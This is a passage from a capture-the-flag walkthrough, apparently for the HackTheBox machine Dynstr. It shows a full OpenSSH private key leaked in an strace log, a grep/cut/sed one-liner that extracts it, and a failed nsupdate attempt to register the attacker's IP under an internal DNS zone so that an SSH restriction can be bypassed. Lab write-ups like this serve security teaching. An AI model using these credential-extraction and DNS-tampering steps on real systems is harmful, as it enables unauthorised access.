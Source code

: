     15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
    

A bit of `cut` and `sed` will isolate the key:

    
    
    www-data@dynstr:/home/bindmgr/support-case-C62796521$ grep BEGIN strace-C62796521.txt | cut -d'"' -f2 | sed 's/\\n/\'$'\n''/g'
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1
    ...[snip]...
    rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
    jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
    -----END OPENSSH PRIVATE KEY-----
    

With the private key, I still can’t connect unless I’m coming from
`*.infra.dyna.htb` as shown above.

#### DNS Configuration

`resolve.conf` shows that Dynstr is using itself as a DNS server:

    
    
    www-data@dynstr:/$ cat /etc/resolv.conf | grep -v "^#"
    nameserver 127.0.0.1
    

I can try to update the DNS resolver so that my IP has a `*.infra.dyna.htb`
name, but it fails:

    
    
    www-data@dynstr:/home/bindmgr/support-case-C62796521$ nsupdate
    > server 127.0.0.1
    > zone infra.dyna.htb
    > update add 0xdf.infra.dyna.htb 30 IN A 10.10.14.8
    > send
    update failed: NOTAUTH
    